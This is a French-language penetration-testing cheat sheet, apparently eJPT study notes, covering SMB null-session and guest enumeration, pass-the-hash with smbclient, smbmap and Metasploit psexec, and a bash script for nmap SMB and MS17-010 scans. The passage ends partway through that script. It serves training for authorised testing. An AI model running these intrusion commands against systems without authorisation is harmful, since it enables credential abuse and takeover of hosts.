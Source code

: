 
## 🔑 8. Techniques d'accès SMB

### Null Sessions (Très fréquent eJPT)
```bash
# Test null session
smbclient -L target -N
rpcclient -U "" -N target
enum4linux -a target

# Énumération via null session
smbmap -H target -u null
nbtscan target
```

### Accès Guest
```bash
# Test compte guest
smbclient -L target -U guest
smbclient //target/share -U guest
enum4linux -u guest -p "" target
```

### Pass-the-Hash
```bash
# Avec smbclient et hash NTLM
smbclient //target/C$ -U administrator --pw-nt-hash hash

# Avec smbmap
smbmap -H target -u administrator -p 'aad3b435b51404eeaad3b435b51404ee:ntlmhash'

# Avec Metasploit psexec
use exploit/windows/smb/psexec
set RHOSTS target
set SMBUser administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:ntlmhash
exploit
```

---

## 📋 9. Scripts automatisés SMB

### Script d'énumération SMB complet
```bash
#!/bin/bash
TARGET=$1

echo "[+] SMB Enumeration for $TARGET"

echo "[*] Basic SMB scan..."
nmap -p139,445 -sV $TARGET

echo "[*] OS Discovery..."
nmap --script smb-os-discovery -p445 $TARGET

echo "[*] Share enumeration..."
nmap --script smb-enum-shares -p445 $TARGET

echo "[*] Vulnerability scan..."
nmap --script smb-vuln-ms17-010,smb-vuln-ms08-067 -p445 $TARGET

echo "[*] enum4linux scan..."
```